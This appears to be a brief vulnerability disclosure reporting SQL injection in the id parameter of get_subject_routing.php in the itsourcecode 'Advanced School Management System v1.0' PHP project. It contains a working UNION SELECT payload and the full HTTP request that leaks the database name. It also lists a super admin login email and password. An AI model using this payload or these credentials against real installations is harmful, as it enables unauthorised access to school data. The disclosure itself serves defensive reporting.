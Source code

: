 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_subject_routing.php?id=

Vulnerability location: /school/model/get_subject_routing.php?id=,id

[+] Payload: /school/model/get_subject_routing.php?id=-23%20union%20select%201,2,database(),4,5--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_subject_routing.php?id=-23%20union%20select%201,2,database(),4,5--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970790-fb5751ce-eacd-4335-b606-185a83509717.png)
